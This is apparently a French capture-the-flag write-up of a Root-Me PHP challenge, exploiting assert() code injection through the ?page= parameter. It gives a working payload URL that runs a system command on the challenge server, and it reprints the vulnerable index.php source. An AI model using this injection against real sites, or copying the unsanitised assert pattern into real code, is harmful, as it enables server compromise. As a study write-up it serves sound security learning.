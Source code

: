 ```yaml
---
categorie: web-server
tags:
  - rootme
  - "#informatique/cyber"
lien:
---
```

# But

reussir Ã  afficher le .passwd 

# Fourni

un simple site php avec un /?page=

on sait que le site utilise assert



# MÃ©thode de rÃ©solution

je vois que c'est l'utilisation de assert qui semble poser problÃ¨me.

![[Pasted image 20241203120927.png]]*

si j'essai d'ajouter un ' :
![[Pasted image 20241203120944.png]]

Je peux dÃ©duire qu'il doit y avoir quelque chose tel que ceci : 


```
var = '<mon input>' + '.php'
```

je vois aussi que strpos est utilisÃ©, qui permet de savoir a quelle position d'une liste, un string se trouve ( je crois )

![[Pasted image 20241203121148.png]]

je suppose donc qu'il doit y avoir quelque chose comme 


```
list = ["contact", "home", "about"]
```
et qu'il faut que mon input soit dans la liste.

en cherchant pourquoi assert Ã©tait vulnÃ©rable, je trouve un [article linkedin](https://www.linkedin.com/pulse/php-assert-vulnerable-local-file-inclusion-mohamed-fakroud), et je trouve un payload que je test et Ã§a passe, il faut maintenant que je comprenne pourquoi cela fonctionne

# recherche apres avoir trouvÃ© 

Ce qui a fonctionnÃ© : 


maintenant que je peux envoyer des commandes dans la machine, je peux faire en sorte de rÃ©cupÃ©rer le fichier index.php

```
http://challenge01.root-me.org/web-serveur/ch47/?page="' and die(system('cat index.php | base64')) or '"
```



```
<?php

if (isset($_GET['page'])) {
  $page = $_GET['page'];
  $file = "includes/" . $page . ".php";

  // too much problems with script kiddies. Detect attack attempt.
  assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
  $val = "includes/". $page;
  
  if(!file_exists($file)){
      echo "'$file'";
    die ("File does not exist");
  }
} else {
  $file = "includes/home.php";
}

?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Evilness is words to live by.</title>
  </head>
  <body>
    <div>
      <a href="?page=home">Home</a> |
      <a href="?page=about">About</a> |
      <a href="?page=contact">Contact</a>
    </div>
    <hr style="margin-bottom:30px;">
    <div>
      <?php
        include_once( $file );
      ?>
    </div>

  </body>
</html>
```


on comprend donc pourquoi cela fonctionne : 

la ligne strpos permet d'Ã©viter a priori d'aller chercher la page ../<quelque chose> en mettant un "hacking detected"
![[Pasted image 20241203122802.png]]

```assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");```

lorsqu'on met "../ " dans l'url , alors le strpos evalue a true donc le assert evalue a false, et le die se dÃ©clenche


# Conclusion 

Il ne faut pas utiliser assert dans ce genre de cas, et il faut ajouter de la sanitization sur les input user